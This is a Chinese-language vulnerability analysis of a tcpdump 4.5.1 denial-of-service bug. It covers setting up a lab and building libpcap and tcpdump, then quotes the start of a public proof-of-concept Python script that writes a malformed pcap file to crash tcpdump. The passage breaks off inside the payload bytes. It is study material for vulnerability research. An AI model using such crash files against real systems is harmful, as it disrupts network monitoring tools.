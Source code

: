 # 从源码分析tcpdump拒绝服务漏洞

## 0. 前言

这个漏洞k0shl有分析过，我也是看了他的[分析](https://whereisk0shl.top/post/2016-10-23-1)才决定自己分析一遍的，最终得到的结论也有一些差异。此外，由于tcpdump本身就是有源码的，所以我是从源码和gdb动态调试两个方向同时进行分析，更加方便理解。

## 1. 环境&准备

### 1.1虚拟机操作系统

kali 2020.3 x86

### 1.2 tcpdump安装

```bash
# 卸载默认安装的tcpdump
apt-get --purge remove tcpdump   
# 安装依赖包
apt install flex
apt install bison
# 安装libpcap
wget http://www.tcpdump.org/release/libpcap-1.5.3.tar.gz
tar -zxvf libpcap-1.5.3.tar.gz
cd libpcap-1.5.3
./configure
make
make install
# 安装tcpdump
wget http://www.tcpdump.org/release/tcpdump-4.5.1.tar.gz
tar -zxvf tcpdump-4.5.1.tar.gz
cd tcpdump-4.5.1
./configure
make
make install
# 验证安装
tcpdump --version
```

### 1.3 poc.py文件

```python
# Exploit Title: tcpdump 4.5.1 Access Violation Crash
# Date: 31st May 2016
# Exploit Author: David Silveiro
# Vendor Homepage: http://www.tcpdump.org
# Software Link: http://www.tcpdump.org/release/tcpdump-4.5.1.tar.gz
# Version: 4.5.1
# Tested on: Ubuntu 14 LTS

from subprocess import call
from shlex import split
from time import sleep


def crash():

    command = 'tcpdump -r crash'

    buffer     =   '\xd4\xc3\xb2\xa1\x02\x00\x04\x00\x00\x00\x00\xf5\xff'
    buffer     +=  '\x00\x00\x00I\x00\x00\x00\xe6\x00\x00\x00\x00\x80\x00'
    buffer     +=  '\x00\x00\x00\x00\x00\x08\x00\x00\x00\x00<\x9c7@\xff\x00'
```